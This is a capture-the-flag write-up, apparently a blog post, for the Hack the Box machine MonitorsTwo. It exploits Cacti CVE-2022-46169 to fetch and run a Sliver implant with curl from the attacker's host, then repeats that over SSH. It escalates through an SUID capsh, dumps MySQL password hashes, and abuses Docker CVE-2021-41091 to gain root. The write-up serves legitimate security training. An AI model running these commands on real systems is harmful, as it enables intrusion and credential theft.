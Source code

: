 ```yaml
---
title: "HTB • MonitorsTwo"
tags:
  - "Beginner"
  - "Linux"
  - "Easy Difficulty"
  - "Web"
  - "MySQL"
  - "Pivoting"
  - "CVE"
  - "Docker"
  - "SUID"
  - "Database"
  - "SQL"
excerpt: "MonitorsTwo is an easy Linux machine on Hack the Box that covers topics including Common Vulnerabilities & Exposures (CVEs), Linux privilege escalation, Docker, SQL, and pivoting"
categories:
  - "Writeups"
  - "Hack the Box Machines"
img_path: "/assets/img/post/htb-machines-monitorstwo/"
---
```


MonitorsTwo is an easy, Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/MonitorsTwo) machine created by [**TheCyberGeek**](https://app.hackthebox.com/users/114053) that covers topics including Common Vulnerabilities and Exposures (CVEs), Linux privilege escalation, Docker, and pivoting. We initially exploited a vulnerable Cacti installation on the target's web server to establish an implant in a Docker container. From within this container, we found an executable with insecure SUID privileges allowing us to elevate to root. We found the entrypoint program in the container with credentials for a MySQL service. This MySQL server contained a password hash that we were able to crack and use to login to the host machine via SSH. Once logged in, we utilized our privileged access in the Docker container to exploit CVE-2021-41091 and read the root flag.

## Initial Reconnaissance

For the initial reconnaissance phase, we began by setting up our environment and conducting a TCP port scan using a custom nmap wrapper script [from here](https://github.com/bryanmcnulty/ctf-scripts/blob/main/recon/active/ctf-portscan.sh). This script aids in quickly and reliably scanning for open ports on the target machine.

```zsh
# Set up environment variables and run a port scan
echo rhost="10.10.11.211" >> .env
echo lhost="10.10.14.2" >> .env # Our HTB VPN client IP address
. ./.env && ctfscan $rhost
```
{:file="bryan@red_team ➤ zsh" .nolineno}

Two open ports were identified:

| Transport | Port | Service | Product      | Version                 |
|:----------|:-----|:--------|:-------------|:------------------------|
| TCP       | 22   | SSH     | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.5 |
| TCP       | 80   | HTTP    | nginx        | 1.18.0                  |

## Web Exploitation

The web service running on port 80 was identified as **Cacti 1.2.22**.

![Web index](web-cacti.png)

Using [cvedetails.com](https://www.cvedetails.com/) we were able to find an applicable unauthenticated command injection vulnerability tracked as [**CVE-2022-46169**](https://www.cvedetails.com/cve/CVE-2022-46169/). We then made [a simple exploit script](https://gist.github.com/bryanmcnulty/df8ee3e77bc87c8b31a244e8cbc688cd) based on information from the detailed CVE description.


### Exploitation

We first set up a [Sliver](https://github.com/BishopFox/sliver) listener and generated a compatible implant, then we served the implant over HTTPS.

```shell
mtls -L 10.10.14.2 -l 8443
generate -o linux -m 10.10.14.2:8443 -e -s implant.elf
websites add-content -w monitors-two -c implant.elf -p /u5j7_t
https -L 10.10.14.2 -l 443 -w monitors-two
```
{:file="bryan@red_team ➤ sliver-client" .nolineno}

We used the exploit to download and execute our implant.

```bash
python3 ./CVE-2022-46169.py http://$rhost -c "sh -c 'f=/tmp/ywmkRg;curl https://$lhost/u5j7_t -ko\$f;chmod +x \$f;\$f'"
```
{:file="bryan@red_team ➤ zsh" .nolineno}

## Docker Container

It was determined that we were inside of a Docker container due to the presence of `/.dockerenv`{:.filepath}. With this in mind, we began looking for a path to root within the container.

### Privilege Escalation

While conducting local enumeration, we used `find` to search for executables with the SUID bit from our implant session.

```shell
execute -t 8 -o sh -c 'find / -perm -u=s 2>/dev/null'
```
{:file="bryan@red_team ➤ sliver-client ➤ www-data@50bca5e748b0" .nolineno}

An unusual SUID executable was found at `/sbin/capsh`{:.filepath}. The permissions on this executable were exploited using the technique outlined in [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) to execute our sliver implant as root.

```shell
execute capsh --uid=0 --gid=0 -- -c /tmp/ywmkRg
```
{:file="bryan@red_team ➤ sliver-client ➤ www-data@50bca5e748b0" .nolineno}

### Privileged Enumeration

Inside the container, the entrypoint script was located at `/entrypoint.sh`{:.filepath}. Credentials for the MySQL root user on _db_ were found in this script.

#### MySQL

We forwarded the remote MySQL service port to localhost for easy access, then used the credentials from `/entrypoint.sh`{:.filepath} to connect.

```shell
portfwd add -b 127.0.0.1:13306 -r db:3306
```
{:file="bryan@red_team ➤ sliver-client ➤ root@50bca5e748b0" .nolineno}
```zsh
# Access MySQL server from forwarded port
mysql --host=127.0.0.1 --port=13306 --user=root --password=$MYSQL_ROOT_PW
```
{:file="bryan@red_team ➤ zsh" .nolineno}

We then found a single non-standard database called "cacti". Since the database was likey related to the Cacti installation on port 80, we inferred that it might store the hashes for each Cacti user.

```sql
show databases; -- "cacti" is the only non-standard db
use cacti; -- We'll work with the cacti db
show tables; -- Found "user_auth" table. Any hashes?
select * from user_auth; -- hashes for user::admin and user::marcus
```
{:file="bryan@red_team ➤ mysql ➤ root@db" .nolineno}

Two users, "admin" and "marcus" existed in the *user_auth* table, each with a corresponding BCrypt hash. We used [hashes.com](https://hashes.com/en/decrypt/hash) to successfully recover the password for _marcus_.

![hashes.com results](container-mysql-bcrypt-hashes.png)

With the username "marcus" and the recovered password, we were able to login to the target via SSH.

## Host Privilege Escalation

First, we'll establish another sliver session, this time on the host system.

```shell
# Establish implant as "marcus"
ssh marcus@$rhost "sh -c 'f=/tmp/9LRZln;curl https://$lhost/u5j7_t -ko\$f;chmod +x \$f;\$f'"
```
{:file="bryan@red_team ➤ zsh" .nolineno}

We initially searched for simple and common privilege escalation routes, but to no evail. Eventually we came across the user mailbox at `/var/mail/marcus`{:.filepath} which held an message detailing a few CVEs possibly affecting the machine.

- CVE-2021-33033: Linux kernel use-after-free vulnerability.
- CVE-2020-25706: Cacti Cross-Site Scripting (XSS) vulnerability.
- CVE-2021-41091: Docker Engine directory traversal and unauthorized program execution.

### CVE-2021-41091

The email mentioned a directory traversal vulnerability affecting Docker Engine tracked as [CVE-2021-41091](https://www.cvedetails.com/cve/CVE-2021-41091/). We studied the CVE description for this vulnerability in search of additional details.

> Moby is an open-source project created by Docker to enable software containerization. A bug was found in Moby (Docker Engine) where the data directory (typically /var/lib/docker) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. **When containers included executable programs with extended permission bits (such as setuid), unprivileged Linux users could discover and execute those programs. When the UID of an unprivileged Linux user on the host collided with the file owner or group inside a container, the unprivileged Linux user on the host could discover, read, and modify those files.** This bug has been fixed in Moby (Docker Engine) 20.10.9. Users should update to this version as soon as possible. Running containers should be stopped and restarted for the permissions to be fixed. For users unable to upgrade limit access to the host to trusted users. Limit access to host volumes to trusted containers.

We ensured that the Docker Engine installation was vulnerable before any exploitation attempts. The installed version was found to be 20.10.5, which is vulnerable to CVE-2021-41091.

```shell
execute -t 5 -o docker --version
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo" .nolineno}

#### Exploitation

In the root implant session within the Docker container, we added the SUID and SGID bits for `/bin/bash`{:.filepath} as explained in the CVE description.

```shell
chmod /bin/bash 6755
```
{:file="bryan@red_team ➤ sliver-client ➤ root@50bca5e748b0" .nolineno}

On the host filesystem, we located the container's mount point and used the SUID bash executable to spawn another implant session. This new session was marked with the username "marcus", but had effective UID and GID of root. This meant we could still perform privileged actions like reading the root flag at `/root/root.txt`{:.filepath}.

```shell
execute -t 5 -o bash -c 'mount | grep ^overlay | cut -d\  -f3'
ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/bin/bash
ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
execute /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -pc /tmp/9LRZln
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo" .nolineno}

```shell
cat /root/root.txt
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo (EUID=0)" .nolineno}
